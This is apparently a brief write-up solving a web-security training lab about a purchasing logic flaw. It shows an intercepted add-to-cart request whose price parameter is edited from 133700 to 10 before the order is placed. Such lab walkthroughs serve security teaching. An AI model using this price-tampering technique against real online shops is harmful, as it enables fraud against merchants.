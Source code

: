 # Excessive trust in client-side controls

## This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

go to Lightweight l33t leather jacket and intercept while adding to cart

```javascript
productId=1&redir=PRODUCT&quantity=1&price=133700
```

### step2

change price and forword

```javascript

productId=1&redir=PRODUCT&quantity=1&price=10
```

### step3

order the product
